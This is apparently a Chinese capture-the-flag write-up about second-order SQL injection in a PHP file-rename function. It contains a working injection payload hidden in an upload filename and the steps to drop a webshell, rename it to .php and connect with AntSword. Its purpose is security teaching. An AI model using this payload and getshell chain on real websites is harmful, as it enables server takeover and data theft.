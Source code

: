 ### 二次注入

话不多说，直接上题（KCTF）

![](https://pic1.imgdb.cn/item/6810f54058cb8da5c8d4a70b.png)

打开网页有个文件上传功能

![](https://pic1.imgdb.cn/item/6810f54b58cb8da5c8d4a712.png)

网站目录下 `/www.tar.gz` 是隐藏文件

![](https://pic1.imgdb.cn/item/6810f91958cb8da5c8d4a8d7.png)

解析源码：

`common.inc.php`中对所有 GET、POST、COOKIE 参数进行`addslashes()`转义

```php
<?php
    // 检查请求中是否同时包含 oldname 和 newname 两个参数
    if (isset($req['oldname']) && isset($req['newname'])) {
        // 查询数据库中是否存在指定的旧文件名记录
        $result = $db->query("select * from `file` where `filename`='{$req['oldname']}'");
        if ($result->num_rows > 0) {
            $result = $result->fetch_assoc();
        } else {
            exit("old file doesn't exists!");
        }

        if ($result) {
		   // 使用 basename() 处理新文件名，防止路径遍历攻击
            $req['newname'] = basename($req['newname']);
            // 更新数据库中的文件名，并将原文件名保存到oldname字段
            $re = $db->query("update `file` set `filename`='{$req['newname']}', `oldname`='{$result['filename']}' where `fid`={$result['fid']}");
            if (!$re) {
                print_r($db->error);
                exit;
            }
            // 构建完整的旧文件路径和新文件路径（包含上传目录和文件扩展名）
            $oldname = UPLOAD_DIR . $result["filename"] . $result["extension"];
            $newname = UPLOAD_DIR . $req["newname"] . $result["extension"];
            // 检查旧文件是否存在，如果存在则重命名
            if (file_exists($oldname)) {
                rename($oldname, $newname);
            }
            $url = "/" . $newname;
            echo "Your file is rename, url:
                    <a href=\"{$url}\" target='_blank'>{$url}</a><br/>
                    <a href=\"/\">go back</a>";
        }
    }
?>
```

发现 `oldname={$result['filename']}` 将之前从数据库中查询出的 `filename` 更新到 `oldname` 当中，再次入库造成二次注入

`oldname` 是上传的文件名存入数据库，`newname` 是用户输入的，都是可控的

**那么关键点在于可以控制上传文件名导致后缀为空，然后通过 `update` 修改文件名为恶意文件类型 getshell**

通过注入可以使数据库中的 `extension` 字段为空，导致文件系统实际文件名与数据库记录不一致

首先上传一个文件名包含 SQL 注入 payload 的文件

```
',extension='',filename='shell.jpg.jpg
```

![](https://pic1.imgdb.cn/item/6811b39158cb8da5c8d53348.png)

`pathinfo()`解析结果为：

```sql
Array
(
    [dirname] => .
    [basename] => ',extension='',filename='shell.jpg.jpg
    [extension] => jpg
    [filename] => ',extension='',filename='shell.jpg
)
```

插入数据库的 SQL 语句变为：

```sql
insert into `file` (`filename`, `view`, `extension`) 
values( '\',extension=\'\',filename=\'shell.jpg', 0, '.jpg')
```

重命名该文件 `shell.jpg`

![](https://pic1.imgdb.cn/item/6811bb1558cb8da5c8d5370b.png)

![](https://pic1.imgdb.cn/item/6811bb4858cb8da5c8d5371c.png)

上传一个webshell文件名为：`shell.jpg`

![](https://pic1.imgdb.cn/item/6811bc7258cb8da5c8d53788.png)

重命命名 `shell.jpg` 为：`shell.php`

蚁剑连接即可

![](https://pic1.imgdb.cn/item/6811bd9058cb8da5c8d53837.png)